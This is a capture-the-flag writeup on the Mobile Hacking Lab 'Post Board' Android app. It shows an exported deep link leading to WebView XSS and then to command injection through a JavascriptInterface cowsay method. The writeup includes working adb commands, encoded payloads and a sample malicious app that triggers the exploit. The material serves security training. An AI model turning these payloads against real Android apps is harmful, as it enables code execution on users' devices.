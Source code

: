 ```yaml
---
title:  "Mobile Hacking Lab Post Board Writeup"
date:   2024-01-22T16:27:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for [Post Board](https://www.mobilehackinglab.com/course/lab-postboard) challenge from Mobile Hacking Lab. 

## Static Analysis
When we open the app in emulator, it opens a page with "Post Message" button and a text input area. As mentioned on text input box, we can send markdown messages and that messages shown on same page. Let's open it with jadx to understand the app.

![](/assets/images_mhl_postboard/manifest.png)

When we examine the manifest file, we see that an intent filter is defined for MainActivity. To properly trigger this activity we need to send intent with `postboard` scheme, `postmessage` host and VIEW action.
```bash
# Sample intent
adb shell am start -n com.mobilehackinglab.postboard/.MainActivity -a android.intent.action.VIEW -d postboard://postmessage/blabla
```
But we need to know what happened when this activity triggered. To undestand this, lets analyze MainActivity.

![](/assets/images_mhl_postboard/mainactivity.png)
 
Inside the onCreate function,initialize method will be called from CowsayUtil class. After that setupWebView and handleIntent methods will be called.

### CowsayUtil Initialize

![](/assets/images_mhl_postboard/cowsayutil.png)

In the initialize function, the cowsay.sh script is taken from the assets folder and move to the files directory under app local data storage. After it is set as executable, the location of this script is written to the scriptPath variable.

![](/assets/images_mhl_postboard/cowsayfiles.png)

If you look at the content of the cowsay.sh file, you can see that it has almost the same function as the cowsay command that can be used on Linux systems.

### setupWebView Function

![](/assets/images_mhl_postboard/setupwebview.png)

In this function, a webview object taken as argument and javascript execution enabled for this webview. After that a WebAppInterface object added to webview with [addJavaScriptInterface method](https://developer.android.com/reference/android/webkit/WebView#addJavascriptInterface(java.lang.Object,%20java.lang.String)). It means that we can access WebAppInterfaces's functions from our webview. 
```md
Functions inside WebAppInterface class:
- clearCache
- getMessages
- postMarkdownMessage
- postCowsayMessage

!!!NOTE!!!: Only public methods that are annotated with JavascriptInterface can be accessed from JavaScript.
```

### handleIntent Function

![](/assets/images_mhl_postboard/handleintent.png)

handleIntent function handle the coming intent and after checking the action and uri, gets the path section of uri(it drops the "/" char) and base64 decode the path. With this decoded message it calls postMarkDownMessage method from WebAppInterface. This method process our message with markdown syntaxes and write on the page. During base64 decoding url-safe decoding mode will be using([as mentioned with "8" number on code](https://android.googlesource.com/platform/frameworks/base/+/master/core/java/android/util/Base64.java#60)).

For example, if you want to write "hello" to board, the proper intent will be this:
```bash
#base64("hello") -> aGVsbG8
adb shell am start -n com.mobilehackinglab.postboard/.MainActivity -a android.intent.action.VIEW -d "postboard://postmessage/aGVsbG8"
```
![](/assets/images_mhl_postboard/intent1.png)

It works. As we mentioned earlier, javascript executrion is enabled on this webview. Lets try basic xss payload 😈

```bash
#base64("<img src=x onerror=alert(1337)>") -> PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEzMzcpPg
adb shell am start -n com.mobilehackinglab.postboard/.MainActivity -a android.intent.action.VIEW -d "postboard://postmessage/PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEzMzcpPg"
```
![](./assets/images_mhl_postboard/intent2.png)

It works🎉 We can execute javascript inside webview. As we mentioned on setuprWebview function, we can access the methods inside webappinterface. Lets try postCowsayMessage method. For invoking that method from js, we can use this intent:
```bash
#base64("<img src=x onerror=WebAppInterface.postCowsayMessage("moo")>") -> PGltZyBzcmM9eCBvbmVycm9yPVdlYkFwcEludGVyZmFjZS5wb3N0Q293c2F5TWVzc2FnZSgibW9vIik-

adb shell am start -n com.mobilehackinglab.postboard/.MainActivity -a android.intent.action.VIEW -d "postboard://postmessage/PGltZyBzcmM9eCBvbmVycm9yPVdlYkFwcEludGVyZmFjZS5wb3N0Q293c2F5TWVzc2FnZSgibW9vIik-"

```
![](/assets/images_mhl_postboard/intent3.png)

It works like standart cowsay command 🐄 But how this cowsay.sh called inside apk?

```java
@JavascriptInterface
    public final void postCowsayMessage(String cowsayMessage) {
        Intrinsics.checkNotNullParameter(cowsayMessage, "cowsayMessage");
        String asciiArt = CowsayUtil.Companion.runCowsay(cowsayMessage);
        String html = StringsKt.replace$default(StringsKt.replace$default(StringsKt.replace$default(StringsKt.replace$default(StringsKt.replace$default(asciiArt, "&", "&amp;", false, 4, (Object) null), "<", "&lt;", false, 4, (Object) null), ">", "&gt;", false, 4, (Object) null), "\"", "&quot;", false, 4, (Object) null), "'", "&#039;", false, 4, (Object) null);
        this.cache.addMessage("<pre>" + StringsKt.replace$default(html, "\n", "<br>", false, 4, (Object) null) + "</pre>");
    }
```
postCowsayMessage method calls `runCowsay` method from CowsayUtil class.

![](/assets/images_mhl_postboard/runCowsay.png)

Here path of cowsay script and message passed to shell without any validation. This problem may leads to command injection attack. Lets try it:
```bash
#base64("<img src=x onerror=WebAppInterface.postCowsayMessage("moo;pwd;whoami;")>") -> PGltZyBzcmM9eCBvbmVycm9yPVdlYkFwcEludGVyZmFjZS5wb3N0Q293c2F5TWVzc2FnZSgibW9vO3B3ZDt3aG9hbWk7Iik-

adb shell am start -n com.mobilehackinglab.postboard/.MainActivity -a android.intent.action.VIEW -d "postboard://postmessage/PGltZyBzcmM9eCBvbmVycm9yPVdlYkFwcEludGVyZmFjZS5wb3N0Q293c2F5TWVzc2FnZSgibW9vO3B3ZDt3aG9hbWk7Iik-"

```
![](/assets/images_mhl_postboard/intent4.png)

Yess we get code execution🎉 If you want to get code exection with malicious app, here is my sample code:

```java
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Uri uri = Uri.parse("postboard://postmessage/PGltZyBzcmM9eCBvbmVycm9yPVdlYkFwcEludGVyZmFjZS5wb3N0Q293c2F5TWVzc2FnZSgibW9vO3B3ZDt3aG9hbWk7Iik-");
        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setClassName("com.mobilehackinglab.postboard","com.mobilehackinglab.postboard.MainActivity");
        intent.setData(uri);
        startActivity(intent);
    }
}
```
Thanks for reading! See you in next writeups 👋🏻👋🏻
